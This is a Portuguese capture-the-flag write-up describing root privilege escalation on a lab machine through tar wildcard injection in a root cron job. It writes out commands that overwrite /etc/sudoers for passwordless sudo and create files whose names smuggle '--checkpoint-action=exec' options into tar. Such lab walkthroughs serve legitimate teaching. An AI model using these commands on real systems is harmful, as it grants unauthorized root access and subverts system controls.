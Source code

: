 ## Segunda flag
*Escalate your privileges and obtain **root.txt***

Lembra do arquivo **/tmp/andre_backup.tar.gz**?
**Cron** é uma utilidade no **mundo Linux** para automatização de tarefas, no caso de nossa máquina alvo, analisando o **/etc/crontab** vemos que existe um backup do diretório **/home/andre/backup** sendo feito para aquele arquivo que achamos com o **linpeas.sh** anteriormente. Aqui, temos um exemplo de uma **Wildcard Injection**:

```
andre@cmess:~/backup$ cat /etc/crontab  
# /etc/crontab: system-wide crontab  
# Unlike any other crontab you don't have to run the `crontab'  
# command to install the new version when you edit this file  
# and files in /etc/cron.d. These files also have username fields,  
# that none of the other crontabs do.  
  
SHELL=/bin/sh  
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin  
  
# m h dom mon dow user  command  
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly  
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )  
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )  
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )  
*/2 *   * * *   root    cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *
```

**Por que** isso caracteriza uma vunerabilidade de **Wildcard Injection**?

A **última entrada** do **output** de nosso **cat** nos diz que:
A cada **2 minutos**, através do usuário **root**, **TODOS** (indicado pelo **asterísco**) os arquivos na pasta **/home/andre/backup** são comprimidos em um **tar**, que então é enviado até o diretório **/tmp/**

Podemos explorar isso e obter privilégio **root** inserindo aqui um **código malicioso** que irá **remover a necessidade do usuário andre de fornecer uma senha ao executar o programa sudo**. Este código será executado pelo nosso **cron**:

```
andre@cmess:~/backup$ echo 'echo "andre ALL=(root) NOPASSWD: ALL" > /etc/sudoers' > safeprogram.sh  
andre@cmess:~/backup$ echo "" > "--checkpoint-action=exec=sh safeprogram.sh"  
andre@cmess:~/backup$ echo "" > --checkpoint=1
andre@cmess:~/backup$ ls -l  
total 16  
-rw-rw-r-- 1 andre andre  1 Jun  1 07:59 --checkpoint=1  
-rw-rw-r-- 1 andre andre  1 Jun  1 07:59 --checkpoint-action=exec=sh safeprogram.sh  
-rwxr-x--- 1 andre andre 51 Feb  9  2020 note  
-rw-rw-r-- 1 andre andre 53 Jun  1 07:58 safeprogram.sh
```
